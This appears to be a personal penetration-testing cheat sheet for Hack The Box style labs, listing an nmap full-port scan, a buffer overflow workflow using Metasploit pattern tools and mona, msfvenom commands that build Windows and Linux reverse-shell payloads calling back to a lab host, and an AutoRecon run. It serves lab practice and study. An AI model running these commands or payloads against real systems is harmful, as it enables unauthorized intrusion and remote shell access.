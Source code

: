## Kali General

- Faster NMAP full port scan. Finds all open ports than loops through service and version detection for those discovered
  - `ports=$(nmap -p- --min-rate=1000 -sT  -T4 10.10.10.116 | grep ^[0-9] | cut-d '/' -f 1 | tr '\n' ',' | sed s/,$//)nmap -sC -sV -p$ports -sT 10.10.10.116`

## Buffer Overflow
  
- Spike
  - `generic_send_tcp 192.168.174.1 31337 ~/Code/buffer-overflow/stats.spk 0 0`
- Fuzz
  - `~/Code/buffer-overflow/fuzzer.py`
- Generate unique pattern:
  - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bufferlen>`
- Finding the offset
  - `~/Code/buffer-overflow/offset.py`
  - (1) `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <bufferlen> -q <EIP address>`
  - (1) `!mona findmsp`
- Confirm offset
  - `~/Code/buffer-overflow/overwrite_eip.py`
- Find badchars
  - `~/Code/buffer-overflow/badchars.py`
- Find Jump
  - `!mona modules`
  - `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb > JMP ESP`
  - (1) `!mona find -s "\xff\xe4" -m <unprotected module>`
  - (1) `!mona jmp -r ESP -m <unprotected module> / !mona jmp -r esp -cpb "<badchars>"`
- Exploit buffer overflow
  - (1) `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.174.128 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`
  - (1) `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.174.128 LPORT=4444 -f c -b "\x00,\x20"`
  - `~/Code/buffer-overflow/exploit_buffer_overflow.py`

## Recon

- `python3 ~/Repositories/AutoRecon/autorecon.py 10.10.10.74 --single-target -o /root/Recon/HTB/Chatterbox/`
